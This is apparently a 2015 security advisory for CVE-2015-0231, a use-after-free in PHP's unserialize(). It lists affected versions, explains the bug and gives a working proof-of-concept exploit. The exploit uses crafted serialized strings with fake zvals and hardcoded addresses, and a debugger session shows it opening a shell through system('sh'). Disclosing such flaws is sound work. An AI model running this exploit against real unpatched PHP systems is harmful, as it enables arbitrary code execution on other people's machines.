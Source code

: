 #Use After Free Vulnerability in unserialize() 
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.3 - Release Date: 2015.3.20

**This vulnerability has the CVE name CVE-2015-0231 assigned, but it is different from Stefan Esser reported and fixed vulnerability previously(Stefan Esser's bug report: bugs.php.net/bug.php?id=68710).**

> A use-after-free vulnerability was discovered in unserialize() with a specially defined object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5 <= 5.3.29  
Affected is PHP 4 <= 4.4.9

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static inline int object_common2(UNSERIALIZE_PARAMETER, zend_long elements)
{
	zval retval;
	zval fname;

	if (Z_TYPE_P(rval) != IS_OBJECT) {
		return 0;
	}

	//??? TODO: resize before
	if (!process_nested_data(UNSERIALIZE_PASSTHRU, Z_OBJPROP_P(rval), elements, 1)) {
		return 0;
	}

	ZVAL_DEREF(rval);
	if (Z_OBJCE_P(rval) != PHP_IC_ENTRY &&
		zend_hash_str_exists(&Z_OBJCE_P(rval)->function_table, "__wakeup", sizeof("__wakeup")-1)) {
		ZVAL_STRINGL(&fname, "__wakeup", sizeof("__wakeup") - 1);
		BG(serialize_lock)++;
		call_user_function_ex(CG(function_table), rval, &fname, &retval, 0, 0, 1, NULL);
```

A specially defined __wakeup() magic method lead to various problems.

The simple code:

``` php
<?php
 
class evilClass {

	public $var;

	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

$data = unserialize('a:2:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;R:4;}');

?>
```
 
Object properties assignment or destroy operation leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\xff\xff\xff\xff";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;a:1:{i:0;R:4;}}}';

$z = unserialize($data2);
intval($z[2]);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

class evilClass {
	
	public $var;
	
	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
